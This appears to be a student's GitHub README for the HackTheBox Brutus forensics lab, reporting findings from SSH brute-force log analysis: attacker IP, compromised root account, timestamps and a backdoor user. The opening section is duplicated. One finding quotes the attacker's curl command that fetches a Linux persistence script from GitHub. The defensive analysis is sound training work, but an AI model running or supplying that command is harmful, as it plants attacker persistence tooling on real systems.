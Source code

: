 # Project 4 — Brutus Lab (SSH Brute Force Analysis)

This repository contains my work for the **Brutus Lab** from HackTheBox as part of my cybersecurity internship.  
The lab focused on investigating and analyzing a brute force SSH attack scenario.  

---

## 🔍 Objectives
- Analyze `auth.log` and `wtmp` to trace brute force attempts.  
- Identify attacker’s IP and the account compromised.  
- Investigate persistence strategy through new user creation.  
- Track attacker’s SSH session activity.  
- Report findings and mitigation steps.

---

## 📑 Key Findings
- Attacker IP: **65.2.161.68**  
- Compromised Account: **root**  
- Attacker Login Time (UTC): **2024-03-06 06:32:45**  
- Session Number: **37**  
- Persistence User: **cyberjunkie**  
- MITRE ATT&CK ID: **T1136.001**  
- Attacker Session Ended: **2024-03-06 06:37:24**  
- Privileged Command Executed:  # Project 4 — Brutus Lab (SSH Brute Force Analysis)

This repository contains my work for the **Brutus Lab** from HackTheBox as part of my cybersecurity internship.  
The lab focused on investigating and analyzing a brute force SSH attack scenario.  

---

## 🔍 Objectives
- Analyze `auth.log` and `wtmp` to trace brute force attempts.  
- Identify attacker’s IP and the account compromised.  
- Investigate persistence strategy through new user creation.  
- Track attacker’s SSH session activity.  
- Report findings and mitigation steps.

---

## 📑 Key Findings
- Attacker IP: **65.2.161.68**  
- Compromised Account: **root**  
- Attacker Login Time (UTC): **2024-03-06 06:32:45**  
- Session Number: **37**  
- Persistence User: **cyberjunkie**  
- MITRE ATT&CK ID: **T1136.001**  
- Attacker Session Ended: **2024-03-06 06:37:24**  
- Privileged Command Executed:  
/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh

---

## 🚀 Learning Outcomes
- Hands-on experience analyzing brute force SSH attacks.  
- Improved skills in log analysis and attacker persistence detection.  
- Mapped attacker behavior to **MITRE ATT&CK framework**.  

---

## 📌 Next Steps
- Apply similar detection techniques in SIEM (Splunk/ELK).  
- Continue with upcoming internship projects.  

---

Screensgot: https://github.com/IsmayeelKhan77/internship-projects-4-Brutus-Lab/blob/main/project4%20ss.png?raw=true
